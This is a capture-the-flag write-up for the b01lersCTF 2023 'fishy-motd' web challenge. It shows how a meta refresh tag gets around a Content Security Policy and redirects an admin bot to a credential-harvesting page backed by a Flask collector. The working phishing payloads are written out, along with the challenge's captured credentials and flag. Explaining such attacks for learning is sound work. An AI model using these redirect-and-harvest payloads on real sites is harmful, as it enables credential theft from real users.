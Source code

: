 +++
title = "b01lersCTF 2023: fishy-motd (web)"
author = "Salvatore Abello"
tags = ["web", "XSS"]
date = "2023-03-21"
+++

## fishy-motd (web, 263 points, 41 solves)

>I just created a tool to deploy messages to server admins in our company. They *love* clicking on them too!
`http://ctf.b01lers.com:5110`

## Overview

We're given a service that allow us to create custom [MOTDs](https://en.wikipedia.org/wiki/Message_of_the_day) which is going to be used in a login page.

We're also able to see the preview of the login page with our custom MOTD in it. Of course, we can deploy our MOTD and show it to admins.

This is a big hint, we can immediately tell that we need to do [XSS](https://en.wikipedia.org/wiki/Cross-site_scripting).

## Analysis

Let's start by taking a look at the main page.

![main-page](imgs/main-page.png)

Let's try typing some HTML tags:

```html
<h1> yes </h1>
<img src="#" onerror="alert(1)">
<script> alert(1); </script>
<a href="https://example.com">Blablabla</a>
```

The login page will look like this:

![login-page](imgs/login-page-1.png)

Something is obviously wrong: our `alert` didn't pop. There's definitely something denying the execution of our javascript code... Something called [Content Security Policy](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP) 😭

>Content Security Policy (CSP) is an added layer of security that helps to detect and mitigate certain types of attacks, including Cross-Site Scripting (XSS) and data injection attacks. These attacks are used for everything from data theft, to site defacement, to malware distribution.

It's possible to specify the policy using HTTP headers or the `<meta>` tag.
We can see in the login page HTML the meta tag which contains the Content-Security-Policy:

```html
<meta http-equiv="Content-Security-Policy" content="default-src 'none'; style-src 'self'; form-action 'self'" />
```

In our case, the CSP consists of three directives:

- `default-src 'none'`, this directive serves as a fallback for the other CSP fetch directives.
- `style-src 'self'`, this directive specifies valid sources for stylesheets. In our case, the only valid source is `http://ctf.b01lers.com:5110`
- `form-action 'self'`, this directive restricts the URLs which can be used as the target of form submissions from a given context. In our case, the only valid target of form submissions is `http://ctf.b01lers.com:5110`.

So, here's what we're unable to do:

- Execute any javascript code
- Use custom CSS
- Submit data to external servers from the login page

But... How it's possible to redirect the admin without executing any javascript code?
Luckly for us, the `meta` tag allows us to do that.
Let's see if it works by typing the following line:

```html
<meta http-equiv="Refresh" content="0; url='https://google.com/'" />
```

![xss-video](videos/preview-xss-1.gif)

**YES!** Now we're able to redirect the admin anywhere we want.

## Let the games begin

Before doing 🐟fishy🐟 things, we need to understand what the admin does on the login page.
We can see inside the `index.js` file what the bot is going to do once on the login page.

```javascript
const adminBot = async (id) => {
    const browser = await puppeteer.launch({
        headless: true, // Uncomment below if the sandbox is causing issues
        // args: ['--no-sandbox', '--disable-setuid-sandbox', '--single-process']
    })
    const page = await browser.newPage();
    await page.setViewport({ width: 800, height: 600 });
    const url = `http://localhost:${port}/login?motd=${id}`;
    await page.goto(url);
    await page.mouse.click(10, 10);
    await new Promise(r => setTimeout(r, 1000));
    try {
        if (url !== await page.evaluate(() => window.location.href)) {
            return { error: "Hey! Something's fishy here!" };
        }
    } catch (err) {
        return { error: "Hey! Something's fishy here!" };
    }
    await new Promise(r => setTimeout(r, 5000));
    await page.mouse.click(420, 280);
    await page.keyboard.type(user);
    await page.mouse.click(420, 320);
    await page.keyboard.type(pass);
    await page.mouse.click(420, 360);
    await new Promise(r => setTimeout(r, 1000));
    await browser.close();
    messages[id] = undefined;
    return { error: null };
}
```

Ok, let's break down what the bot does:

- Visits `http://localhost:${port}/login?motd=${id}` using the specified id
- Clicks to position (10, 10) (maybe it will click on the MOTD, idk)
- Waits for one second
- Checks if the current page is the same as the page with the MOTD
- Waits for another five seconds
- Clicks in the position of the username field and writes the admin's username
- Clicks in the position of the password field and writes the admin's password
- Waits for one second

Luckly for us, the `meta` tag allows us to specify the redirect delay. Our final MOTD will look like this:

```html
<meta http-equiv="Refresh" content="1.1; url='https://my.webhook/'" />
```

Where `1.1` indicates the redirect delay (in seconds).

## Solution

Now let's create our server, which will collect the admin credentials. The dumbest way to accomplish this, is using a really wide textarea, and then redirect the admin after a bunch of seconds.

Our main page will look like this:

```html
<!DOCTYPE html>
<html lang="en">
    <head>
        <meta charset="UTF-8" />
        <meta http-equiv="X-UA-Compatible" content="IE=edge" />
        <meta name="viewport" content="width=device-width, initial-scale=1.0" />
        <title>lol</title>
    </head>
    <body>
        <form action="/lol" method="POST">
            <textarea name="credentials" style="min-width: 2000px; min-height: 1000px;"> </textarea>
        </form>
        <script>
            setTimeout(function () {
                document.getElementsByTagName("form")[0].submit();
            }, 4500);
        </script>
    </body>
</html>
```

We're going to use the Flask library, which will handle the POST requests for us.

```python
from flask import Flask, request, render_template

app = Flask(__name__)


@app.route("/lol", methods=["POST"])
def lol():
    credentials = request.form.get("credentials")
    print(f"{credentials = }")

    return "lol"


@app.route("/")
def index():
    return render_template("index.html")


app.run("0.0.0.0", 1337)
```

We can use [ngrok](https://ngrok.com/) to make our site accessible to everyone.

Finally, we can send our payload to the admin.

![final-xss-result](imgs/final-xss-result.png)

We can distinguish the username from the password easily, the correct credentials will be:

- username: **n01_5y54dm1n**
- password: **7zzHuXRAp)uj@(qO@Zi0**

If we use these credentials to log in, we get the flag!

`flag: bctf{ph15h1ng_reel_w1th_0n3_e}`
